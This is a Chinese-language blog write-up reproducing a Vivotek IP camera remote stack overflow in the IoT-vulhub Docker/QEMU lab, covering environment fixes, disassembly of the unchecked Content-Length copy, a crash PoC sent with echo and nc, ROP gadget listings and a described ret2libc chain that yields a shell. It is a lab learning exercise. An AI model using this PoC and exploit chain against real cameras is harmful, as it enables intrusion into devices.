IoT-vulhub 漏洞复现 (一):Vivotek 远程栈溢出漏洞

- - -

# IoT-vulhub 漏洞复现 (一):Vivotek 远程栈溢出漏洞

近期开始了 iot 的学习，以 IoT-vulhub 这个漏洞合集复现开始

github 链接：[IoT-vulhub · GitHub](https://github.com/Vu1nT0tal/IoT-vulhub/tree/master/)

## 介绍

2017 年 11 月发现了 vivotek 的一个栈溢出漏洞，其固件中的 httpd 服务中未对用户 post 的数据长度做校验，导致攻击者可以发送超长的数据导致栈溢出使摄像头进程崩溃或是执行任意代码

下面我们就用 IoT-vulhub 提供的漏洞复现环境来复现该漏洞

## 安装基本环境

在 Ubuntu 20.04 下安装 docker 和 docker-compose：

```plain
# 安装 pip
curl -s https://bootstrap.pypa.io/get-pip.py | python3

# 安装最新版 docker
curl -s https://get.docker.com/ | sh

# 启动 docker 服务
systemctl start docker

# 安装 docker-compose
python3 -m pip install docker-compose
```

```plain
#下载项目
wget https://github.com/VulnTotal-Team/IoT-vulhub/archive/master.zip -O iot-vulhub-master.zip
或者直接下载后复制到虚拟机中
解压
unzip iot-vulhub-master.zip && cd iot-vulhub-master
# 构建 ubuntu1604 基础镜像
cd baseImage/ubuntu1604 && docker build -t firmianay/ubuntu1604 .
# 构建 binwalk 容器，方便使用
cd baseImage/binwalk && docker build -t firmianay/binwalk .
```

## 漏洞环境

-   docker：攻击、调试主机：192.168.2.1
-   qemu-system：固件主机：192.168.2.2
-   httpd（有漏洞服务）：192.168.2.2:80
-   镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:armel`

使用 `firmianay/binwalk` 解压固件：

```plain
#进入 VIVOTEK/remote_stack_overflow 文件夹
cd VIVOTEK/remote_stack_overflow
docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/CC8160-VVTK-0100d.flash.pkg"
```

等待解压完成即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170128-7dd96996-bc29-1.png)

## 环境搭建

首先不要急着直接构建漏洞环境，如果直接运行`docker compose -f docker-compose-system.yml build` 构建镜像的话会报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170125-7bf8c004-bc29-1.png)

具体原因是`docker.io`提供的网站没有`firmianay/qemu-system:armel`这个镜像，因此我们需要自己在本地构建这个镜像

**解决方法：**

首先，在 `IoT-vulhub-master/baseImage/qemu-system/armel/images` 目录下，有一个 `download.sh` 文件，把其中的下载链接全都改成 `https://file.erlkonig.tech/debian-armel/xxxx` ，然后运行，将这些文件都下载到 `images` 文件夹下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170122-7a1a84e8-bc29-1.png)

随后在上一级目录下使用 `docker build -t firmianay/qemu-system:armel .` 在本地构建镜像即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170118-77a01638-bc29-1.png)

同理运行 `docker compose -f docker-compose-user.yml build` 前也需要根据报错构建对应名称的镜像

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170114-753127c0-bc29-1.png)

不过在构建镜像时可能会遇到这种情况

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170111-737e719e-bc29-1.png)

如果检查了网络和代理啥的都没有问题的话建议注释掉关于 gef 的代码，到时候调试直接用 gdb 就行

构建好镜像后再次构建镜像，执行一半会发现这里又报错了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170107-7147e8f6-bc29-1.png)

这是因为在新版 docker 中，会对文件名做检测，解决方法是在文件中找到要提取的带有\_31 的目录到 firmware 目录下，同时将命令改成`COPY ./firmware/_31.extracted /root/firmware`即可

完成后即可成功构建

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170101-6d89306c-bc29-1.png)

## 漏洞复现

在固件包中找到漏洞程序 httpd

checksec 检测下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170052-6834d1ca-bc29-1.png)

32 位小端 arm 程序，只开了 nx

放到 ida 中

根据 poc 中的 Content-Length 字符串找到漏洞点

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170044-63b65a7e-bc29-1.png)

解释下逻辑：

截取 Content-Length 的字符串然后用 strncpy 放到 dest 中，但是并没有对字符串做长度检测

我们看看 dest 变量和栈底的距离

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170030-5b0bea10-bc29-1.png)

只有 0x38 大小，那肯定能进行栈溢出了

所以我们启动容器，测试漏洞原作者给的 payload

```plain
#启动系统环境
docker compose -f docker-compose-system.yml up
#启动用户环境
docker-compose -f docker-compose-user.yml up
# 等待启动完成，重新打开一个窗口
docker exec -it vivotek-system /bin/bash
```

```plain
#连接测试用户端口
root@6f747349c6c3:~# nc -v 192.168.2.2 80
192.168.2.2 [192.168.2.2] 80 (http) open
#或是浏览器输入 URL：127.0.0.1:8888
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170034-5da21c86-bc29-1.png)

```plain
#在新窗口中输入 poc
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 192.168.2.2 80
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170023-56d452e8-bc29-1.png)

可以发现系统停止了运行并在监听端出现报错

到这里复现就成功了

## 更进一步

既然栈溢出能成功，那么我们是否可以更进一步拿到 shell？

答案自然是可以的，程序只开启了 nx，无法直接写 shellcode，而程序中的后门函数不大好利用，并且考虑到 IoT 设备为效率考虑一般是不会开 aslr 的，所以我们可以直接通过 ret2libc 来进行利用

首先找到该进程加载的 libc 基地址和栈地址

```plain
cat /proc/'pid号'/maps
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170550-19f906ec-bc2a-1.png)

用 ROPgadget 看看有那些可以利用的 gadget

```plain
root@rbcpwn-virtual-machine:~/Desktop# ROPgadget --binary httpd --only 'pop|ret'
Gadgets information
============================================================
0x00024364 : pop {r1, pc}
0x00015c3c : pop {r3, pc}
0x0000d9f0 : pop {r3, r4, r5, pc}
0x0000aa94 : pop {r3, r4, r5, r6, r7, pc}
0x00011a58 : pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x00011c54 : pop {r3, r4, r5, r6, r7, r8, sb, pc} ; pop {r3, r4, r5, r6, r7, r8, sb, pc}
0x0000e4d8 : pop {r3, r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000a884 : pop {r4, pc}
0x0000d6cc : pop {r4, r5, pc}
0x0000a91c : pop {r4, r5, r6, pc}
0x0001757c : pop {r4, r5, r6, pc} ; pop {r4, r5, r6, pc}
0x0001412c : pop {r4, r5, r6, r7, pc}
0x0001bdb4 : pop {r4, r5, r6, r7, r8, fp, pc}
0x0000a9e0 : pop {r4, r5, r6, r7, r8, pc}
0x0000f2a4 : pop {r4, r5, r6, r7, r8, sb, pc}
0x0000a504 : pop {r4, r5, r6, r7, r8, sb, sl, fp, pc}
0x0000c708 : pop {r4, r5, r6, r7, r8, sb, sl, pc}
```

选取的 gadget 如下：

```plain
pop {r1, pc} 
mov r0, r1 ; pop {r4, r5, pc}
```

为什么不直接选 pop {r0,pc}？因为 pop {r0,pc}对应的地址 0x00033100 中有截断符\\x00，且 libc 基址最后也是\\x00，所以用 pip {r0,pc}会导致输入中断，无法继续利用。所以只能通过先将参数地址传给 r1，之后再 mov 到 r0 中去。

让 r0 指向栈上指定的内容，之后再执行 system 函数就能任意代码执行了。

利用脚本作者也给我们提供了模版，在这个目录下

```plain
./tools/
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170016-5314acb6-bc29-1.png)

不过这个还是要我们自己调试出对应加载地址和寄存器地址

在测试虚拟机中打开 gdb，先映射一个端口，然后 target remote 192.168.2.2:1234 即可调试

```plain
root@debian-armel:~# ./tools/gdbserver --attach :8888 `ps | grep -v grep | grep httpd | awk '{prin
t $1}'`
Attached; pid = 2298
Listening on port 8888
```

```plain
root@6f747349c6c3:~/tools# gdb
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 192.168.2.2:8888
Remote debugging using 192.168.2.2:8888
```

然后将脚本整理成字节码就可以通过测试虚拟机发送啦

也就是运行作者给的脚本然后再运行 exp.sh 即可

此时会通过 2222 端口（yejius）反弹一个 shell，nc 192.168.2.2 2222 就能拿到 shell 了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240126170010-4f3439ea-bc29-1.png)

至此漏洞复现完毕

## 总结

这是我第一次接触二进制的真实漏洞复现，虽然漏洞原理很好懂，但是自己一个个的搭建环境，调试啥的确实踩了不少坑，不过通过也收获了很多新的技能，再接再厉！
